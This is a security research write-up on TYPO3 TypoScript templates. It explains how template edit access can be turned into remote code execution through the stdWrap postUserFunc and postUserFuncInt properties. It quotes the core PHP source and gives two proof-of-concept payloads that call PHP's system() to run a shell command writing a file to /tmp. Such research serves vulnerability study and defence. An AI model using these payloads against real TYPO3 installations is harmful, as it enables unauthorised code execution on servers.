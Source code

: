 ```yaml
---
permalink: /b4
---
```

{% raw %}
# B4: Tricks with Typo3's template language TypoScript (part 1: Remote Command Execution)

> What is to be rendered on a page in the frontend, the menu structure, how content objects are displayed, etc. can be defined with TypoScript - often it is used in combination with the Fluid templating engine. - docs.typo3.org

TypoScript can have 2 meanings:
- TypoScript syntax is used in TypoScript templates and in TSconfig
- TypoScript templates are used to configure the TYPO3 frontend rendering.

If you are one day in the situation to be able to edit the contents of a Typo3 template then it will be possible for you to exploit the following vulnerabilities:
- Remote Code Execution (RCE)
- SQL injection (SQLi)
- Full Path Disclosure

To find the vulnerabilities you just have to read the docs, it takes time but it is worth it.

General documentation: [https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/Index.html](https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/Index.html)

## Remote Code Execution

### Why ?

The complex data type `TEXT` has a property "value" which is defined as having a simple data type "string".

Here is the list of value's property:
- `addParams`
- `cache`
- `Calc`
- `encapsLines`
- `filelink`
- `getEnv`
- `HTMLparser`
- `HTMLparser_tags`
- `if`
- `imageLinkWrap`
- `imgResource`
- `makelinks`
- `numberFormat`
- `numRows`
- `optionSplit`
- `parseFunc`
- `replacement`
- `round`
- `select`
- `split`
- `stdWrap`
- `strPad`
- `tags`
- `typolink`

> When a data type is set to "type /stdWrap" it means that the value is parsed through the `stdWrap` function with the properties of the value as parameters.

When reading the documentation of `stdWrap` it appears that it has two properties which will allow us to achieve the execution fo PHP code:
- `postUserFunc`
    - https://docs.typo3.org/m/typo3/reference-typoscript/10.4/en-us/Functions/Stdwrap.html#postuserfunc
    - https://docs.typo3.org/m/typo3/reference-typoscript/9.5/en-us/Functions/Stdwrap.html#stdwrap-postuserfunc

> Calls the provided PHP function. If you specify the name with a "->" in it, then it is interpreted as a call to a method in a class.
> Two parameters are sent to the PHP function: As first parameter a content variable, which contains the current content. This is the value to be processed. As second parameter any sub-properties of postUserFunc are provided to the function.

File: <span style="color:red">\<ROOT\>/typo3/sysext/frontend/Classes/ContentObject/ContentObjectRenderer.php</span>
```php

...

    /**
     * postUserFunc
     * Will execute a user function after the content has been modified by any other stdWrap function
     *
     * @param string $content Input value undergoing processing in this function.
     * @param array $conf stdWrap properties for postUserFunc.
     * @return string The processed input value
     */
    public function stdWrap_postUserFunc($content = '', $conf = [])
    {
        return $this->callUserFunction($conf['postUserFunc'], $conf['postUserFunc.'], $content);
    }

...

```

- `postUserFuncInt`
    - https://docs.typo3.org/m/typo3/reference-typoscript/10.4/en-us/Functions/Stdwrap.html#postuserfuncint
    - https://docs.typo3.org/m/typo3/reference-typoscript/9.5/en-us/Functions/Stdwrap.html#postuserfuncint

>Calls the provided PHP function. If you specify the name with a "->" in it, then it is interpreted as a call to a method in a class.
>Two parameters are sent to the PHP function: As first parameter a content variable, which contains the current content. This is the value to be processed. As second parameter any sub-properties of postUserFuncInt are provided to the function.

File: <span style="color:red">\<ROOT\>/typo3/sysext/frontend/Classes/ContentObject/ContentObjectRenderer.php</span>
```php

...

    /**
     * postUserFuncInt
     * Will execute a user function after the content has been created and each time it is fetched from Cache
     * The result of this function itself will not be cached
     *
     * @param string $content Input value undergoing processing in this function.
     * @param array $conf stdWrap properties for postUserFuncInt.
     * @return string The processed input value
     */
    public function stdWrap_postUserFuncInt($content = '', $conf = [])
    {
        $substKey = 'INT_SCRIPT.' . $this->getTypoScriptFrontendController()->uniqueHash();
        $this->getTypoScriptFrontendController()->config['INTincScript'][$substKey] = [
            'content' => $content,
            'postUserFunc' => $conf['postUserFuncInt'],
            'conf' => $conf['postUserFuncInt.'],
            'type' => 'POSTUSERFUNC',
            'cObj' => serialize($this)
        ];
        $content = '<!--' . $substKey . '-->';
        return $content;
    }

...

```

### How ?

Exploit using `postUserFunc`:
```
# Start POC of Remote Code Execution
page = PAGE
page.1 = TEXT
page.1 {
   value = echo dGVzdAo=|base64 -d|dd of=/tmp/poc
   stdWrap.postUserFunc = system
}
# End POC of Remote Code Execution
```

Exploit using `postUserFunc`:
```
# Start POC of Remote Code Execution
page = PAGE
page.1 = TEXT
page.1 {
   value = echo dGVzdAo=|base64 -d|dd of=/tmp/poc
   stdWrap.postUserFuncInt = system
}
# End POC of Remote Code Execution
```

#### POC

Edit a template:
![alt text](../captures/b4_0.png "Template Edition")

Then trigger the content rendering by requesting a page using the template, here the page index.php from the Web application root http://127.0.0.1/projects/typo3/9.5.24/.
![alt text](../captures/b4_1.png "Content rendered")

{% endraw %}